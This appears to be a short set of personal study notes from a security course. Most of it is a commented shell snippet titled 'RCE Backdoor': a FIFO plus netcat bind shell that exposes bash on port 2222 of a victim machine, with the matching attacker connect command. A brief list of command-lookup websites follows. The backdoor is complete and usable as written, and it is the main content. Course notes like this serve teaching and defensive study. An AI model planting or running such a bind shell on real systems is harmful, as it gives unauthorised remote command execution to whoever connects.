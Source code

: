 ## RCE Backdoor
From AntiSyphon course
```sh
# Victim
mknod backpipe p  # Create block or character device special files, -p FIFO
/bin/bash 0<backpipe | nc -l 2222 1>backpipe # Listen on port 2222, route to backpipe file and run contents of backpipe file in bash

# Attacker
nc {hostname/ip} {port e.g. 2222}  # Connect to remote port for RCE
{commands}
```

# Resources
- https://www.explainshell.com/ - Identifies the parts of a complex command string
- ss64.com - Command lookup for numerous languages
- cheat.sh/command - Use curl to get simplified man pages for commands